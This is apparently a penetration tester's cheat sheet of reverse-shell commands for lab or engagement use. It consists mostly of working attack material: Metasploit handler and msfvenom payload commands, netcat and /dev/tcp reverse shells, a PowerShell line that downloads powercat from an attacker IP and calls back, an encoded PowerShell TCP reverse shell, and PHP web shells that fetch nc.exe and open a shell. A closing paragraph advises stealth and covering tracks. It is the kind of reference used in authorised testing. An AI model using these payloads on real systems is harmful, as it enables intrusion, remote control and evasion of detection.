 [Revshells](https://www.revshells.com)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
[PHP Reverse Shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 4443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'
```

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=4443 -f elf > shell.elf

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $ip 443 >/tmp/f
bash -c 'bash -i >& /dev/tcp/$ip/443 0>&1'

python3 -c 'import pty; pty.spawn("/bin/bash")' 
stty raw -echo && fg
```


```bash
msfconsole -q -x 'use exploit/windows/smb/smb_delivery; set LHOST tun0; set LPORT 8443; set SRVHOST 10.10.10.157; run'
use exploit/windows/smb/smb_delivery

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4443 -f exe > shell.exe
```
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.18/powercat.ps1');powercat -c 10.10.14.18 -p 4443 -e powershell"

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.237",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
powershell -e <payload>
```

```php
<?php system($_GET['cmd']) ?> 
<?php system($_REQUEST['cmd']) ?> 
<?php echo shell_exec($_GET['cmd']); ?>
<?php echo shell_exec($_REQUEST['cmd']); ?>
system("powershell -c curl http://10.10.14.6/nc.exe -o C:\\programdata\\nc.exe");
system("C:\\programdata\\nc.exe 10.10.14.6 1337 -e powershell.exe");
```


Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and `cover our tracks`. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. This will help our client and save us in the long run from having files discovered after an engagement period is over. In most cases, when attempting to gain a shell session with a target, it would be wise to establish a reverse shell and then delete the executed payload. Also, we must document every method we attempt, what worked & what did not work, and even the names of the payloads & files we tried to use. We could include a sha1sum or MD5 hash of the file name, upload locations in our reports as proof, and provide attribution.